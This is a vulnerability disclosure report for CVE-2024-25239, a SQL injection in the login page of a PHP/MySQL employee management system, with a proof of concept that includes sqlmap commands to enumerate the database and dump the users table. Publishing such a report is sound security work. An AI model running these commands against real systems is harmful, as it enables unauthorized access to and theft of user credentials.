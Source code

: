 ```yaml
---
layout: single
title: Sourcecodester Employee Management System using PHP and MySQL v1.0 - SQL Injection
excerpt: "Report for a SQL Injection vulnerability found on Sourcecodester Employee Management System using PHP and MySQL v1.0"
date: 2024-01-27
classes: wide
header:
  teaser: /assets/images/employee-management-system/logo.jpeg
  teaser_home_page: true
categories:
  - CVE
  - Report
  - SQLi
tags:
  - cve
  - sqli
---
```


## Details:
- Date: 27-01-2024
- Affected Version: v1.0
- Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
- Vendor Notification: 27-01-2024
- Advisory Publication: 27-01-2024 (with no technical details)
- Public Disclosure: 27-02-2024
- Software Link: [https://www.sourcecodester.com/php/16999/employee-management-system.html](https://www.sourcecodester.com/php/16999/employee-management-system.html)
- CVE Assigned: [CVE-2024-25239](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-25239)
- Author: Josué Mier (aka blu3ming)

## Description:
SQL injection is a type of cyber attack where attackers exploit vulnerabilities in input fields of web applications to insert malicious SQL code. By doing so, they can gain unauthorized access to databases, steal sensitive data, or even manipulate database contents. Preventative measures, such as input validation and parameterized queries, are essential for protecting against SQL injection attacks and maintaining database security.
## Affected Locations:
- `http://localhost/employee_akpoly/Account/login.php`, txtemail parameter
- emloyee_akpoly/Account/login.php, Line 18

## Proof of Concept:
As observed in the screenshot below, when we send a SQL query with a time delay in the "txtemail" field for the Employees' login portal, the web application takes the established time (10 seconds) to return a response, suggesting a potential time-based blind SQL injection vulnerability.

![1]

Once this indication of a potential SQL injection is found, we proceed to dump database-related information using the sqlmap tool. Next, we attempt to find the database name with the following command:

```
sqlmap "http://localhost/employee_akpoly/Account/login.php" --data="txtemail=email&txtpassword=pass&btnlogin=" --flush-session --level=5 --risk=3 --dbs
```

We observe that it is also susceptible to boolean-based blind SQL injection.

![2]

Once the database name is found, we proceed to dump the tables:

```
sqlmap "http://localhost/employee_akpoly/Account/login.php" --data="txtemail=test&txtpassword=test&btnlogin=" --flush-session --level=5 --risk=3 -D employee_akpoly --tables
```

![3]

Subsequently, we dump all the information from the "users" table:
```
sqlmap "http://localhost/employee_akpoly/Account/login.php" --data="txtemail=test&txtpassword=test&btnlogin=" --flush-session --level=5 --risk=3 -D employee_akpoly -T users --dump
```

![4]

[1]:/assets/images/employee-management-system/1.png
[2]:/assets/images/employee-management-system/2.png
[3]:/assets/images/employee-management-system/3.png
[4]:/assets/images/employee-management-system/4.png
